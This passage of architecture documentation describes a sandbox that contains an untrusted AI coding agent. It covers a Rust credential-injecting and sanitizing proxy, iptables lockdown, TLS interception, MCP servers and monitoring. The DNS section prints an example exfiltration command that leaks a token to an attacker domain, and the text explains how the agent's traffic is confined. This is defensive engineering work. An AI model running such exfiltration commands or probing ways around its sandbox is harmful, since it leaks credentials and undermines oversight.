### 7. Proxy Internal Architecture

#### 7.1 Source File Map

The proxy consists of 24 source files organized into 4 functional modules:

```text
proxy/src/
├── main.rs              (401 lines) — Entry point, config loading, router setup
├── lib.rs               (30 lines)  — Module declarations and re-exports
├── config.rs            (367 lines) — YAML configuration parsing
├── proxy.rs             (618 lines) — Core HTTP forwarding handler
├── middleware.rs         (325 lines) — Shared AppState and middleware functions
├── sanitizer.rs         (392 lines) — Credential injection and sanitization engine
├── mtls.rs              (177 lines) — mTLS configuration and verification
├── builder.rs           (225 lines) — Auth strategy factory
├── strategy.rs          (337 lines) — AuthStrategy trait + BearerStrategy
├── auto_detect.rs       (529 lines) — Automatic API discovery from PostgreSQL
├── metrics.rs           (254 lines) — Prometheus metrics definitions
├── connect.rs           (658 lines) — HTTP CONNECT tunnel handler
├── connect_middleware.rs (79 lines)  — Tower layer for CONNECT interception
├── connect_mitm.rs      (110 lines) — TLS MITM (handshake only)
├── connect_http.rs      (334 lines) — TLS MITM + HTTP parsing
├── connect_full.rs      (381 lines) — Full MITM: TLS + HTTP + injection + sanitization
├── http_parser.rs       (582 lines) — HTTP/1.x request/response parser
├── strategies/
│   ├── mod.rs           (7 lines)   — Module declarations
│   └── aws_sigv4.rs     (427 lines) — AWS Signature V4 strategy
└── tls/
    ├── mod.rs           (12 lines)  — Module declarations
    ├── ca.rs            (215 lines) — Certificate authority management
    ├── acceptor.rs      (243 lines) — Dynamic TLS certificate generation
    ├── cache.rs         (181 lines) — LRU certificate cache
    └── error.rs         (56 lines)  — TLS error types
```

**Total:** ~5,881 lines of Rust.

#### 7.2 Request Processing Pipeline


```mermaid
flowchart TD
    REQ["Incoming Request"] --> CONNECT{"CONNECT<br/>method?"}
    
    CONNECT --> | Yes | CM["ConnectMiddleware<br/>(outermost layer)"]
    CM --> PARSE["Parse destination<br/>host:port"]
    PARSE --> PORT{"Port 443/8443<br/>AND NOT<br/>ALLOW_BUILD?"}
    PORT --> | Yes | MITM["Full TLS MITM<br/>connect_full.rs"]
    PORT --> | No | PASS["Raw TCP Passthrough<br/>connect.rs"]
    
    MITM --> TLS_HS["TLS Handshake<br/>(generated cert)"]
    TLS_HS --> HTTP_PARSE["HTTP Request Parse<br/>http_parser.rs"]
    HTTP_PARSE --> VALIDATE["Host Validation<br/>(allowed_hosts)"]
    VALIDATE --> INJECT_M["Credential Injection<br/>(body + headers)"]
    INJECT_M --> FORWARD_M["Forward to upstream"]
    FORWARD_M --> RESPONSE_M["Parse HTTP Response"]
    RESPONSE_M --> SANITIZE_M["Sanitize Response<br/>(body + headers)"]
    SANITIZE_M --> CLIENT_M["Send to client"]
    
    CONNECT --> | No | TRACE["TraceLayer<br/>(logging)"]
    TRACE --> ROUTE{"Route matching"}
    ROUTE --> | /health | HEALTH["health() → OK"]
    ROUTE --> | /metrics | METRICS["metrics_handler()"]
    ROUTE --> | / | ROOT["root() → Landing page"]
    ROUTE --> | /v1/* | PROXY_H["proxy_handler()"]
    
    PROXY_H --> BYPASS{"should_bypass_proxy?<br/>(localhost/127.0.0.1)"}
    BYPASS --> | Yes | DIRECT["forward_directly()<br/>(no sanitization)"]
    BYPASS --> | No | READ_REQ["Read body<br/>(size-limited: 10MB)"]
    READ_REQ --> INJ["secret_map.inject()<br/>(DUMMY → REAL)"]
    INJ --> TARGET["determine_target_url()<br/>(X-Target-URL / Host / env)"]
    TARGET --> FWD["hyper client<br/>→ upstream"]
    FWD --> READ_RESP["Read response<br/>(size-limited: 100MB)"]
    READ_RESP --> SAN["secret_map.sanitize_bytes()<br/>(REAL → [REDACTED])"]
    SAN --> PARANOID["Paranoid verification<br/>(fail-closed: 500 on leak)"]
    PARANOID --> HDR["sanitize_headers()<br/>(blocked + sanitized)"]
    HDR --> CL["build_response_headers()<br/>(Content-Length recalc)"]
    CL --> RESP["Return sanitized response"]

    style REQ fill:#3498db,color:#fff
    style INJ fill:#e74c3c,color:#fff
    style SAN fill:#e74c3c,color:#fff
    style PARANOID fill:#c0392b,color:#fff
    style RESP fill:#27ae60,color:#fff
```

#### 7.3 Credential Loading Pipeline

For the complete credential loading pipeline analysis, see [Section 5: Credential Lifecycle & Leak Prevention](#section-5-credential-lifecycle--leak-prevention).

The proxy loads credentials through a 4-stage priority pipeline:


```mermaid
flowchart TD
    START["main()"] --> YAML{"config.yaml<br/>exists?"}
    
    YAML --> | Yes | LOAD_YAML["Config::from_file()<br/>config.rs:166-179"]
    YAML --> | No | AUTODETECT
    
    LOAD_YAML --> BUILD["build_strategies_from_config()<br/>builder.rs:8-41"]
    BUILD --> AUTODETECT{"AUTO_DETECT_ENABLED?"}
    
    AUTODETECT --> | true | DB["AutoDetector::scan()<br/>auto_detect.rs:108-191"]
    AUTODETECT --> | false | MERGE
    
    DB --> MERGE["merge_strategies()<br/>auto_detect.rs:430-449<br/>(manual wins over auto)"]
    MERGE --> HAS{"Has strategies?"}
    
    HAS --> | Yes | SMAP["SecretMap::from_strategies()<br/>sanitizer.rs:200-270"]
    HAS --> | No | FALLBACK["load_secrets_fallback()<br/>main.rs:267-322<br/>(hardcoded env vars)"]
    
    FALLBACK --> SMAP2["SecretMap::new()<br/>sanitizer.rs:46-77"]
    SMAP --> STATE["AppState::new()<br/>with SecretMap"]
    SMAP2 --> STATE
    
    STATE --> ROUTER["Build axum router<br/>main.rs:67-78"]

    style START fill:#3498db,color:#fff
    style SMAP fill:#e74c3c,color:#fff
    style SMAP2 fill:#e74c3c,color:#fff
    style STATE fill:#27ae60,color:#fff
```

**Ref:** `proxy/src/main.rs:165-264`

---

### 8. MCP Knowledge Plane

The agent has access to three Model Context Protocol (MCP) servers for persistent context:


```mermaid
graph LR
    subgraph AGENT["Agent Container"]
        OC["OpenCode"]
    end

    subgraph MCP["MCP Servers (Local Processes)"]
        MEM["Memory Server<br/>Storage: SQLite<br/>Purpose: Entity/relation graph"]
        KNOW["Knowledge Server<br/>Storage: LanceDB<br/>Purpose: Vector document search"]
        CGR["Code-Graph-RAG<br/>Storage: Memgraph<br/>Purpose: AST code queries"]
    end

    subgraph STORAGE["Persistent Storage"]
        SQL["SQLite DB<br/>~/.local/share/mcp-memory/"]
        LDB["LanceDB Index<br/>~/.local/share/mcp-knowledge/"]
        MEMG["Memgraph<br/>:7687 (Bolt)"]
    end

    OC --> | memory_* | MEM
    OC --> | knowledge_* | KNOW
    OC --> | code-graph-rag_* | CGR
    MEM --> SQL
    KNOW --> LDB
    CGR --> MEMG

    style AGENT fill:#d35400,color:#fff
    style MCP fill:#2980b9,color:#fff
    style STORAGE fill:#27ae60,color:#fff
```

| Server | Storage | Model | Air-Gapped | Reset Command |
| --- | --- | --- | --- | --- |
| **Memory** | SQLite | — | Yes | `make session-reset` (deletes DB) |
| **Knowledge** | LanceDB | `all-MiniLM-L6-v2` (384-dim) | Yes (`HF_HUB_OFFLINE=1`) | `make session-reset` (deletes index) |
| **Code-Graph-RAG** | Memgraph | Configurable (local LLM) | Yes | `make session-reset` (clears graph) |

**Ref:** `agent/config/opencode.json:12-53`

---

### 9. Configuration Architecture

#### 9.1 Environment Variable Hierarchy

```text
┌─────────────────────────────────────────────────────────────┐
│                    CONFIGURATION LAYERS                     │
├─────────────────────────────────────────────────────────────┤
│                                                             │
│  Layer 1: docker-compose.yml environment:                   │
│           Hardcoded defaults (lowest priority)              │
│           e.g., RUST_LOG=info, MEMGRAPH_HOST=memgraph       │
│                                                             │
│  Layer 2: docker-compose.yml env_file:                      │
│           .env file loaded by proxy (holds REAL creds)      │
│                                                             │
│  Layer 3: .env.agent (auto-generated on startup):           │
│           DUMMY_* placeholders loaded by agent              │
│                                                             │
│  Layer 4: config.yaml (proxy):                              │
│           Auth strategies, bypass rules, telemetry blocking │
│                                                             │
│  Layer 5: opencode.json (agent):                            │
│           Tool permissions, MCP server config               │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

#### 9.2 Configuration Files

| File | Purpose | Ref |
| --- | --- | --- |
| `.env` | Real credentials (host), loaded by proxy via `env_file` | `docker-compose.yml:133` |
| `.env.agent` | DUMMY credentials (auto-generated), loaded by agent | `agent/scripts/generate-dummy-env.sh` |
| `proxy/config.yaml` | Auth strategies, bypass rules, telemetry blocklist | `proxy/src/config.rs` |
| `agent/config/opencode.json` | OpenCode permissions, MCP servers, tool rules | `agent/config/opencode.json` |
| `agent/config/AGENTS.md` | OpenCode behavioral instructions | `agent/config/AGENTS.md` |
| `monitoring/prometheus.yml` | Scrape targets, retention, intervals | `monitoring/prometheus.yml` |
| `monitoring/grafana/` | Datasource + dashboard provisioning | `monitoring/grafana/` |

---

### Key Takeaways

1. **Five functional planes** (Identity, Security, Execution, Knowledge, Observability) provide clear separation of concerns across 8 Docker services.

2. **Three trust zones** (Host/Trusted, Proxy/Semi-Trusted, Agent/Untrusted) enforce strict boundaries with defined allowed interactions at each boundary.

3. **The proxy is the only path to the internet** — and it is blocked by default in the agent's iptables rules. This is the architectural foundation of the zero-knowledge model.

4. **The agent container is built on 12 security layers** — from the Wolfi base image through binary shadowing to the setuid netctl binary — each designed to prevent credential exfiltration and code leakage.

5. **The proxy processes 5,881 lines of Rust** through a multi-stage middleware pipeline that performs credential injection, binary-safe sanitization, header scrubbing, and paranoid verification on every request.

---

---

# Section 3: Network Interactions

### Overview

SLAPENIR has **9 distinct network interaction paths**, each with unique protocol handling, security enforcement, and credential processing. This document provides a packet-level walkthrough of every path through the system.

---

### 1. Service Startup Sequence

All services start in dependency order, gated by health checks. No service begins processing until its dependencies report healthy.


```mermaid
sequenceDiagram
    participant Host as Host (docker compose)
    participant CA as step-ca :9000
    participant PG as postgres :5432
    participant MG as memgraph :7687
    participant MGL as memgraph-lab :7688
    participant PX as proxy :3000
    participant AG as agent
    participant PROM as prometheus :9090
    participant GRAF as grafana :3001

    Host->>CA: Phase 1: Start step-ca
    activate CA
    CA-->>CA: Initialize PKI (DOCKER_STEPCA_INIT_*)
    CA->>CA: Health: step ca health (30s start period)
    
    Host->>PG: Phase 1: Start postgres
    activate PG
    PG->>PG: Load migrations from proxy/migrations/
    PG->>PG: Health: pg_isready (10s interval)
    
    Host->>MG: Start memgraph (standalone)
    activate MG
    MG->>MG: Health: Bolt socket connect (10s interval)
    
    MG-->>MGL: memgraph healthy
    Host->>MGL: Start memgraph-lab
    activate MGL

    CA-->>PX: step-ca healthy
    PG-->>PX: postgres healthy
    Host->>PX: Phase 2: Start proxy
    activate PX
    Note over PX: Load .env real credentials<br/>Connect to postgres for auto-detect<br/>Build SecretMap Aho-Corasick automatons<br/>Load mTLS certs from /certs/
    PX->>PX: Health: curl localhost:3000/health (10s start)

    PX-->>AG: proxy healthy
    Host->>AG: Phase 3: Start agent
    activate AG
    Note over AG: cont-init.d as root:<br/>  00-fix-permissions<br/>  01-traffic-enforcement iptables LOCKED<br/>  02-populate-huggingface-cache
    Note over AG: s6-rc.d as agent user:<br/>  env-init → env-dummy-init → bash-init<br/>  git-init → gpg-init → build-config<br/>  startup-validation 9 tests<br/>  agent-svc longrun

    Note over Host: --profile logs
    Host->>PROM: Phase 6: Start prometheus
    activate PROM
    PX-->>PROM: Scrape proxy:3000/metrics (10s interval)
    AG-->>PROM: Scrape agent:8000/metrics (10s interval)
    
    PROM-->>GRAF: prometheus ready
    Host->>GRAF: Start grafana
    activate GRAF
```

**Key constraints:**

- `step-ca` and `postgres` have no dependencies and start in parallel
- `proxy` waits for both `step-ca` (healthy) and `postgres` (healthy) before starting
- `agent` waits for `proxy` (healthy) before starting
- `prometheus` and `grafana` are optional (`--profile logs`)

**Ref:** `docker-compose.yml:154-158`, `docker-compose.yml:265-267`

---

### 2. Interaction 1: Agent to Local LLM (Port 8080)

The agent connects directly to the host's llama-server for AI inference. No proxy, no credential injection, no sanitization.


```mermaid
sequenceDiagram
    participant AG as Agent (Wolfi)
    participant IPT as iptables TRAFFIC_ENFORCE
    participant GW as host.docker.internal
    participant LLM as llama-server :8080

    AG->>IPT: OUTPUT chain → TRAFFIC_ENFORCE
    Note over IPT: Rule 16: ACCEPT<br/>-d $LLAMA_HOST_IP -p tcp --dport 8080
    IPT->>GW: ACCEPT (direct)
    GW->>LLM: TCP connection
    
    AG->>LLM: POST /v1/chat/completions<br/>{"model":"qwen3.5-35b-a3b-ud-q4_k_xl",<br/> "messages":[...]}
    LLM-->>AG: 200 OK<br/>{"choices":[{"message":{...}}]}
```

#### Packet Walkthrough

| Step | Source | Destination | Protocol | Payload |
| ------ | -------- | ------------- | ---------- | --------- |
| 1 | Agent (172.30.0.2) | host.docker.internal | TCP SYN | Destination port 8080 |
| 2 | iptables | — | Rule match | Rule 16: `ACCEPT -d $LLAMA_HOST_IP -p tcp --dport $LLAMA_SERVER_PORT` |
| 3 | Agent | llama-server | HTTP POST | `/v1/chat/completions` with `sk-local` API key (dummy) |
| 4 | llama-server | Agent | HTTP 200 | JSON inference response |

#### Why No Proxy?

The local LLM is a trusted, air-gapped service. No real credentials are involved — the agent uses `sk-local` (a dummy key ignored by llama-server). Proxying this traffic would add unnecessary latency to the inference path.

#### iptables Rule (LOCKED mode)

```bash

## traffic-enforcement.sh:129-135

LLAMA_HOST_IP=$(resolve_host "$LLAMA_SERVER_HOST" 2>/dev/null)
iptables -A TRAFFIC_ENFORCE -d "$LLAMA_HOST_IP" -p tcp --dport "$LLAMA_SERVER_PORT" -j ACCEPT
```

#### Configuration

| Variable | Default | Purpose |
| --- | --- | --- |
| `LLAMA_SERVER_HOST` | `host.docker.internal` | LLM server hostname |
| `LLAMA_SERVER_PORT` | `8080` | LLM server port |
| `ORCHESTRATOR_API_KEY` | `sk-local` | Dummy API key (ignored by llama-server) |

**Ref:** `agent/scripts/traffic-enforcement.sh:129-135`, `docker-compose.yml:198-206`

---

### 3. Interaction 2: Agent to Proxy — HTTP Forward Proxy (Port 3000)

The primary credential injection path. The agent sends HTTP requests with `DUMMY_*` tokens; the proxy replaces them with real credentials and forwards to external APIs.


```mermaid
sequenceDiagram
    participant AG as Agent (Wolfi)
    participant IPT as iptables TRAFFIC_ENFORCE
    participant PX as Proxy :3000
    participant EXT as External API<br/>(GitHub, OpenAI, etc.)

    Note over AG,IPT: DEFAULT STATE: PROXY IS BLOCKED
    AG->>IPT: HTTP request to proxy:3000
    Note over IPT: Rule 14: DROP<br/>-d $PROXY_IP
    IPT-->>AG: REJECT (icmp-port-unreachable)

    Note over AG,IPT: ALLOW_BUILD=1 STATE: PROXY ENABLED
    AG->>AG: netctl enable<br/>(setuid root binary)
    Note over IPT: Insert ACCEPT before DROP rule<br/>-d $PROXY_IP -p tcp --dport 3000 ACCEPT

    AG->>IPT: HTTP request to proxy:3000
    IPT->>PX: ACCEPT (proxy port opened)
    
    Note over PX: proxy_handler invoked
    PX->>PX: Read body (size limit: 10MB)
    PX->>PX: secret_map.inject(body)<br/>DUMMY_GITHUB → ghp_real_token
    PX->>PX: Determine target URL<br/>(X-Target-URL → Host → OPENAI_API_URL)
    PX->>EXT: Forward with real credentials
    
    EXT-->>PX: HTTP response (may contain secrets)
    
    PX->>PX: Read response (size limit: 100MB)
    PX->>PX: sanitize_bytes() (binary-safe)
    PX->>PX: Paranoid double-pass verification
    PX->>PX: sanitize_headers()
    PX->>PX: build_response_headers() (Content-Length recalc)
    
    PX-->>AG: Sanitized response (secrets → [REDACTED])
    
    AG->>AG: netctl disable<br/>(remove ACCEPT rule)
    Note over IPT: Proxy DROP rule restored
```

#### Packet Walkthrough (Permitted Path)

| Step | Source | Destination | Protocol | Payload | Transformation |
| ------ | -------- | ------------- | ---------- | --------- | ---------------- |
| 1 | Agent | iptables | OUTPUT | HTTP request | Rule check: proxy ACCEPT (temporary) |
| 2 | Agent | Proxy :3000 | HTTP POST | `Authorization: Bearer DUMMY_GITHUB` | — |
| 3 | Proxy | Proxy (internal) | — | Body read (≤10MB) | UTF-8 validation |
| 4 | Proxy | Proxy (internal) | — | Aho-Corasick scan | `DUMMY_GITHUB` → `ghp_real_xxx` |
| 5 | Proxy | External API | HTTPS | `Authorization: Bearer ghp_real_xxx` | — |
| 6 | External API | Proxy | HTTPS | Response body (may contain `ghp_real_xxx`) | — |
| 7 | Proxy | Proxy (internal) | — | Binary-safe scan | `ghp_real_xxx` → `[REDACTED]` |
| 8 | Proxy | Proxy (internal) | — | Paranoid verify | Fail-closed: 500 if secret survives |
| 9 | Proxy | Proxy (internal) | — | Header scan | Remove x-debug-*, sanitize Set-Cookie, etc. |
| 10 | Proxy | Agent | HTTP 200 | `Authorization: Bearer [REDACTED]` | Content-Length recalculated |

#### Target URL Resolution

The proxy determines the upstream target through a 3-level priority chain:

**Ref:** `proxy/src/proxy.rs:354-400`

```text
Priority 1: X-Target-URL header
  → Agent sets: X-Target-URL: https://api.github.com
  → Proxy forwards to: https://api.github.com/v1/...

Priority 2: Host header (HTTP_PROXY scenario)
  → Agent sets: Host: api.github.com
  → Proxy forwards to: http://api.github.com/v1/...
  → (Only if Host is NOT proxy:3000)

Priority 3: OPENAI_API_URL environment variable (fallback)
  → Default: https://api.openai.com
  → Proxy forwards to: https://api.openai.com/v1/...
```

#### Hop-by-Hop Header Filtering

The proxy strips connection-level headers before forwarding:

**Ref:** `proxy/src/proxy.rs:483-496`

| Header | Action | Reason |
| --- | --- | --- |
| `connection` | Strip | Hop-by-hop, not for upstream |
| `keep-alive` | Strip | Hop-by-hop |
| `proxy-authenticate` | Strip | Proxy-specific |
| `proxy-authorization` | Strip | Proxy-specific |
| `te` | Strip | Transfer encoding hint |
| `trailers` | Strip | Chunked encoding |
| `transfer-encoding` | Strip | Re-calculated |
| `upgrade` | Strip | WebSocket upgrade |
| `host` | Strip | Re-set from target URL |

#### Size Limits

**Ref:** `proxy/src/proxy.rs:26-28`

| Direction | Default Limit | Error Code | Config |
| --- | --- | --- | --- |
| Request (inbound from agent) | 10 MB | 413 Payload Too Large | `max_request_size` |
| Response (inbound from upstream) | 100 MB | 502 Bad Gateway | `max_response_size` |

#### Blocked Response Headers

The proxy removes information-leaking headers from all responses before returning to the agent:

**Ref:** `proxy/src/proxy.rs:132-136`

```rust
"x-debug-token" | "x-debug-info" | "server-timing" | "x-runtime" => {
    continue; // removed
}
```

---

### 4. Interaction 3: Agent to Proxy — CONNECT Tunnel (HTTPS)

For HTTPS traffic, the proxy uses HTTP CONNECT tunneling. The behavior splits into two paths based on destination port and `ALLOW_BUILD` state.


```mermaid
flowchart TD
    CONNECT["Agent sends CONNECT<br/>github.com:443"] --> CM["ConnectMiddleware<br/>(outermost Tower layer)"]
    CM --> PARSE["parse_destination()<br/>Extract host:port from URI"]
    PARSE --> TCP["TcpStream::connect(destination)<br/>Establish TCP to server"]
    TCP --> UPG["hyper::upgrade::on(req)<br/>Create upgrade future"]
    UPG --> RESP["Return 200 Connection Established"]
    RESP --> SPAWN["Spawn tunnel task"]
    
    SPAWN --> PORT{"Port 443/8443<br/>AND NOT ALLOW_BUILD?"}
    
    PORT --> | Yes<br/>HTTPS interception | MITM["tunnel_with_tls_mitm_full()<br/>connect_full.rs"]
    PORT --> | No<br/>ALLOW_BUILD=1 or non-HTTPS | PASS["tunnel_passthrough()<br/>connect.rs"]
    
    MITM --> TLS1["Load CA certificate<br/>(load_or_generate)"]
    TLS1 --> TLS2["Accept client TLS<br/>(MitmAcceptor generates cert)"]
    TLS2 --> TLS3["Connect TLS to upstream<br/>(TlsConnector)"]
    TLS3 --> LOOP["Request/Response Loop"]
    
    LOOP --> READ_REQ["read_http_request()<br/>(8KB chunks, max 1MB)"]
    READ_REQ --> VALIDATE["detect_and_validate_strategies()<br/>Host whitelist check"]
    VALIDATE --> | Blocked | SEC_ERR["SecurityViolation error"]
    VALIDATE --> | Passed | INJECT["secret_map.inject()<br/>(body + headers)"]
    INJECT --> SERIALIZE["serialize_request()"]
    SERIALIZE --> FWD["Write to upstream TLS"]
    FWD --> READ_RESP["read_http_response()<br/>(8KB chunks, max 10MB)"]
    READ_RESP --> SANITIZE["secret_map.sanitize()<br/>(body + headers)"]
    SANITIZE --> SERIALIZE2["serialize_response()"]
    SERIALIZE2 --> SEND["Write to client TLS"]
    SEND --> CONN{"Connection: close?"}
    CONN --> | Yes | DONE["Tunnel closed"]
    CONN --> | No | LOOP
    
    PASS --> COPY["Bidirectional copy<br/>(8KB buffers)"]
    COPY --> STATS["Log byte counts"]
    STATS --> DONE2["Tunnel closed"]

    style SEC_ERR fill:#c0392b,color:#fff
    style INJECT fill:#e67e22,color:#fff
    style SANITIZE fill:#e67e22,color:#fff
```

#### Path A: TLS MITM Mode (Port 443/8443, ALLOW_BUILD not set)

The proxy performs a full man-in-the-middle to decrypt, inspect, inject, sanitize, and re-encrypt HTTPS traffic.

**Ref:** `proxy/src/connect_full.rs:26-254`

| Step | Action | Code Location |
| ------ | -------- | --------------- |
| 1 | Load or generate CA certificate | `connect_full.rs:40-47` |
| 2 | Accept client TLS with per-host certificate | `connect_full.rs:50-57` |
| 3 | Connect TLS to upstream server | `connect_full.rs:69-83` |
| 4 | Read HTTP request from client (8KB chunks, ≤1MB) | `connect_full.rs:257-306` |
| 5 | Validate host against strategy whitelist | `connect_full.rs:129-149` |
| 6 | Inject credentials into body and headers | `connect_full.rs:156-175` |
| 7 | Serialize and forward to upstream | `connect_full.rs:178-184` |
| 8 | Read HTTP response from server (8KB chunks, ≤10MB) | `connect_full.rs:309-358` |
| 9 | Sanitize credentials from body and headers | `connect_full.rs:209-232` |
| 10 | Serialize and send to client | `connect_full.rs:235-241` |
| 11 | Check Connection: close header | `connect_full.rs:244-247` |

#### Host Validation (Security Critical)

Before injecting credentials, the proxy validates that the destination host is whitelisted for the detected credential type. This prevents an agent from sending its `DUMMY_GITHUB` token to `evil.com`.

**Ref:** `proxy/src/connect_full.rs:129-149`

```rust
match detect_and_validate_strategies(
    &state.strategies,
    &header_map,
    &body_str,
    &hostname,
) {
    Ok(validated_strategies) => { /* proceed */ }
    Err(SecurityError::HostNotWhitelisted { credential_type, host, allowed_hosts }) => {
        return Err(ConnectError::SecurityViolation(format!(
            "Credential exfiltration blocked: {} credential attempted to unauthorized host '{}'",
            credential_type, host
        )));
    }
}
```

#### Certificate Caching

The MitmAcceptor maintains an LRU cache (default 1000 entries) of generated per-host certificates to avoid regenerating for repeated connections to the same host.

**Ref:** `proxy/src/tls/cache.rs:16-19`

#### Path B: Passthrough Mode (Non-HTTPS or ALLOW_BUILD=1)

When `ALLOW_BUILD=1` is active (build operations), the proxy performs raw bidirectional TCP relay with no inspection, no credential injection, and no sanitization.

**Ref:** `proxy/src/connect.rs:184-266`

| Step | Action | Buffer Size |
| ------ | -------- | ------------- |
| 1 | Split client and server streams into read/write halves | — |
| 2 | Run `tokio::join!` on both copy directions | 8KB per direction |
| 3 | Read 8KB from client → write to server | 8192 bytes |
| 4 | Read 8KB from server → write to client | 8192 bytes |
| 5 | Log byte count statistics on close | — |

**Design decision:** Build operations (package installation) do not need credential injection because package registries use their own authentication mechanisms. The passthrough mode avoids the performance overhead of TLS MITM during dependency resolution.

---

### 5. Interaction 4: Agent to Memgraph (Bolt Protocol, Port 7687)

Code-Graph-RAG queries travel over the Bolt protocol to Memgraph for AST-based code graph lookups.


```mermaid
sequenceDiagram
    participant AG as Agent
    participant IPT as iptables TRAFFIC_ENFORCE
    participant MG as Memgraph :7687

    AG->>IPT: Bolt connection to memgraph:7687
    Note over IPT: Rule 15: ACCEPT<br/>-d 172.30.0.0/24
    IPT->>MG: ACCEPT (Docker internal)

    AG->>MG: Bolt HANDSHAKE
    MG-->>AG: Bolt SUPPORTED_VERSIONS
    AG->>MG: Cypher: MATCH (n:Function)<br/>WHERE n.name = 'proxy_handler'<br/>RETURN n
    MG-->>AG: Bolt SUCCESS + records
```

#### iptables Rule

```bash

## traffic-enforcement.sh:125

iptables -A TRAFFIC_ENFORCE -d 172.30.0.0/24 -j ACCEPT
```

The proxy IP is explicitly DROPped *before* this rule, so even though Memgraph and the proxy are on the same subnet, only internal services (not the proxy) are reachable.

#### Configuration

| Variable | Default | Purpose |
| --- | --- | --- |
| `MEMGRAPH_HOST` | `memgraph` | Memgraph hostname (Docker DNS) |
| `MEMGRAPH_PORT` | `7687` | Bolt protocol port |

**Ref:** `docker-compose.yml:211-212`, `agent/config/opencode.json:18-30`

---

### 6. Interaction 5: Agent to PostgreSQL (Port 5432)

The proxy uses PostgreSQL for auto-detection of API definitions. The agent itself does not connect to PostgreSQL directly.


```mermaid
sequenceDiagram
    participant PX as Proxy :3000
    participant PG as PostgreSQL :5432

    Note over PX: Startup: AutoDetector::new<br/>Creates PgPool max 5 connections
    PX->>PG: SELECT * FROM api_definitions<br/>WHERE env_vars && $1
    PG-->>PX: Matching API definitions<br/>(name, strategy_type, env_vars, allowed_hosts)
    Note over PX: Build AuthStrategy objects<br/>from results
```

#### Auto-Detection Query

**Ref:** `proxy/src/auto_detect.rs:194-233`

```sql
SELECT name, display_name, category, env_vars, strategy_type, 
       dummy_prefix, allowed_hosts, header_name
FROM api_definitions 
WHERE env_vars && $1  -- PostgreSQL array overlap operator
```

The `$1` parameter is a PostgreSQL array of all environment variable names currently set in the proxy container. The `&&` operator matches any overlap between the environment variable names and the `env_vars` column (stored as a PostgreSQL array).

#### Connection Pool

| Property | Value | Purpose |
| --- | --- | --- |
| Max connections | 5 | Limit resource usage |
| TLS | `tls-rustls` | Encrypted connection |
| Runtime | `runtime-tokio` | Async compatibility |

**Ref:** `proxy/Cargo.toml:73` (sqlx features)

---

### 7. Interaction 6: DNS Resolution (Port 53)

DNS is tightly controlled through iptables to prevent DNS-based data exfiltration.


```mermaid
flowchart LR
    AG["Agent DNS Query"] --> IPT{"iptables<br/>TRAFFIC_ENFORCE"}
    
    IPT --> | 8.8.8.8:53<br/>ACCEPT | G["Google DNS"]
    IPT --> | 8.8.4.4:53<br/>ACCEPT | G2["Google DNS (secondary)"]
    IPT --> | 1.1.1.1:53<br/>ACCEPT | CF["Cloudflare DNS"]
    IPT --> | *:53<br/>LOG + DROP | LOG["[DNS-BLOCK] logged"]
    LOG --> DROP["DROP"]
    
    style DROP fill:#c0392b,color:#fff
    style LOG fill:#e67e22,color:#fff
    style G fill:#27ae60,color:#fff
    style G2 fill:#27ae60,color:#fff
    style CF fill:#27ae60,color:#fff
```

#### iptables DNS Rules

**Ref:** `agent/scripts/traffic-enforcement.sh:91-107`

| Rule # | Protocol | Destination | Port | Action |
| -------- | ---------- | ------------- | ------ | -------- |
| 4 | UDP | 8.8.8.8 | 53 | ACCEPT |
| 5 | UDP | 8.8.4.4 | 53 | ACCEPT |
| 6 | TCP | 8.8.8.8 | 53 | ACCEPT |
| 7 | TCP | 8.8.4.4 | 53 | ACCEPT |
| 8 | UDP | 1.1.1.1 | 53 | ACCEPT |
| 9 | TCP | 1.1.1.1 | 53 | ACCEPT |
| 10 | UDP | * | 53 | LOG `[DNS-BLOCK]` + DROP |
| 11 | TCP | * | 53 | LOG `[DNS-BLOCK]` + DROP |

#### DNS Exfiltration Prevention

Without DNS filtering, an agent could encode stolen credentials in DNS queries:

```text

## Example attack (prevented):

nslookup ghp_1234567890.evil-attacker.com

## → DNS query leaks: "ghp_1234567890.evil-attacker.com"

```

By restricting DNS to trusted resolvers (Google, Cloudflare), this attack vector is eliminated. Any attempt to query an unauthorized DNS server is logged with `[DNS-BLOCK]` prefix and dropped.

---

### 8. Interaction 7: Prometheus Metrics Scrape

Prometheus collects metrics from the proxy, agent, and Step-CA on configured intervals.


```mermaid
sequenceDiagram
    participant PROM as Prometheus :9090
    participant PX as Proxy :3000
    participant AG as Agent :8000
    participant CA as Step-CA :9000

    loop Every 10 seconds
        PROM->>PX: GET /metrics
        PX-->>PROM: Prometheus text format<br/>(slapenir_proxy_*)
        PROM->>AG: GET :8000/metrics
        AG-->>PROM: Prometheus text format<br/>(agent_*)
    end

    loop Every 30 seconds
        PROM->>CA: GET :9000/metrics
        CA-->>PROM: Step-CA metrics
    end

    loop Every 15 seconds
        PROM->>PROM: Self-scrape :9090/metrics
    end
```

#### Scrape Configuration

**Ref:** `monitoring/prometheus.yml`

| Target | Endpoint | Interval | Timeout |
| --- | --- | --- | --- |
| Proxy | `proxy:3000/metrics` | 10s | — |
| Agent | `agent:8000/metrics` | 10s | — |
| Step-CA | `ca:9000/metrics` | 30s | — |
| Prometheus (self) | `localhost:9090/metrics` | 15s | — |

#### Key Metrics Exposed

| Metric | Source | Type | Description |
| --- | --- | --- | --- |
| `slapenir_proxy_http_requests_total` | Proxy | Counter | Total proxy requests by method/status/endpoint |
| `slapenir_proxy_secrets_sanitized_total` | Proxy | Counter | Total secrets redacted from responses |
| `slapenir_proxy_mtls_connections_total` | Proxy | Counter | mTLS connection count |
| `slapenir_proxy_http_request_duration_seconds` | Proxy | Histogram | Request latency (1ms–5s buckets) |
| `agent_network_isolation_status` | Agent | Gauge | 1=isolated, 0=bypassed |
| `agent_bypass_attempts_total` | Agent | Counter | Blocked traffic attempts |

---

### 9. Interaction 8: NAT Redirect (Transparent Proxy)

When `ALLOW_BUILD=1` is active, iptables NAT rules transparently redirect ports 80 and 443 to the proxy's port 3000. This ensures that build tools using standard HTTP/HTTPS URLs are automatically routed through the credential-aware proxy.


```mermaid
sequenceDiagram
    participant AG as Agent
    participant NAT as iptables NAT<br/>TRAFFIC_REDIRECT
    participant PX as Proxy :3000
    participant EXT as External API

    Note over AG: ALLOW_BUILD=1 active
    Note over NAT: network-enable.sh has created<br/>TRAFFIC_REDIRECT chain

    AG->>NAT: HTTP request to registry.npmjs.org:80
    Note over NAT: Rule: -p tcp --dport 80<br/>REDIRECT --to-ports 3000
    NAT->>PX: Redirected to localhost:3000
    PX->>PX: Determine target from Host header
    PX->>EXT: Forward to registry.npmjs.org
    
    AG->>NAT: HTTPS CONNECT to repo.maven.apache.org:443
